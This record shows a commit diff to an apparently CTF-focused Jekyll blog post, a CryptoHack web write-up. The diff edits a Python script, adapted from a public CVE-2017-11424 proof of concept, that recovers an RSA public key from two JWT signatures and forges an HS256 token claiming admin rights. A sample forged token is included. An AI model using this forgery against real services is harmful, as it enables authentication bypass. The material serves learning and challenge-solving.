

Before and after one commit to AC01010/Connor-McCartney.github.io, a Jekyll site: the page built from _posts/2001-01-10-CryptohackWEB.md, in a window 1280 px wide and 1400 px high, scrolled down 3167 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 4250 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2001-01-10-CryptohackWEB.md

````diff
--- a/_posts/2001-01-10-CryptohackWEB.md
+++ b/_posts/2001-01-10-CryptohackWEB.md
@@ -52,6 +52,7 @@ print(jwt.encode({'username': 'user', 'admin': True}, PRIVATE_KEY, algorithm='HS
 
 ```python
 # modified script from https://github.com/silentsignal/rsa_sign2n/blob/release/CVE-2017-11424/x_CVE-2017-11424.py
+
 import sys
 import jwt
 import json
@@ -106,29 +98,20 @@ def forge_mac(jwt0, public_key):
 
 jwt0_sig_bytes = b64urldecode(jwt0.split('.')[2])
 jwt1_sig_bytes = b64urldecode(jwt1.split('.')[2])
-if len(jwt0_sig_bytes) != len(jwt1_sig_bytes):
-    raise Exception("Signature length mismatch") # Based on the mod exp operation alone, there may be some differences!
-
 jwt0_sig = bytes2mpz(jwt0_sig_bytes)
 jwt1_sig = bytes2mpz(jwt1_sig_bytes)
-
 jks0_input = ".".join(jwt0.split('.')[0:2])
 sha256_0=SHA256.new(jks0_input.encode('ascii'))
 padded0 = PKCS1_v1_5.EMSA_PKCS1_V1_5_ENCODE(sha256_0, len(jwt0_sig_bytes))
-
 jks1_input = ".".join(jwt1.split('.')[0:2])
 sha256_1=SHA256.new(jks1_input.encode('ascii'))
 padded1 = PKCS1_v1_5.EMSA_PKCS1_V1_5_ENCODE(sha256_1, len(jwt0_sig_bytes))
-
 m0 = bytes2mpz(padded0)
 m1 = bytes2mpz(padded1)
-
 pkcs1 = asn1tools.compile_files('pkcs1.asn', codec='der')
 x509 = asn1tools.compile_files('x509.asn', codec='der')
-
 for e in [mpz(3),mpz(65537)]:
     gcd_res = gcd(pow(jwt0_sig, e)-m0,pow(jwt1_sig, e)-m1)
-
     for my_gcd in range(1,100):
         my_n=c_div(gcd_res, mpz(my_gcd))
         if pow(jwt0_sig, e, my_n) == m0:
@@ -145,6 +128,5 @@ for e in [mpz(3),mpz(65537)]:
                 pem_out.write(public_key)
                 forge_mac(jwt0, public_key)
 
-
-#payload: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ICJ1c2VyMSIsICJhZG1pbiI6IHRydWUsICJleHAiOiAxNjQwNTc0NTQ4fQ.zH0d1HL5tQpXFU_ZLt6Z4r5jn6ecNq5yf3mmLLXLfDs
+#tampered JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ICJ1c2VyMSIsICJhZG1pbiI6IHRydWUsICJleHAiOiAxNjQwNTc1MTI2fQ.eYTJvTz4tWny9dPZDtwPjCu92FLBoTxYiQP8YpgFtYI
 ```
````
Also changed, not shown: other parts of _posts/2001-01-10-CryptohackWEB.md (+1 -10 lines).
